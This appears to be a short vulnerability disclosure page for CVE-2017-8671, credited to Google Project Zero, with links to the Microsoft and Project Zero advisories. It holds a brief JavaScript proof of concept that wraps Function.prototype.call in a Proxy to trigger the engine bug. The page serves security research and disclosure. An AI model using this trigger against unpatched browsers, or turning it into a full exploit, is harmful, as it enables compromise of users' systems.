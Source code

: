 # CVE-2017-8671

- Fix: Aug 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function f() {
    print(arguments);
}

let call = new Proxy(Function.prototype.call, {});  // proxy calls set the flag
call.call(f);
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8671)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1295)
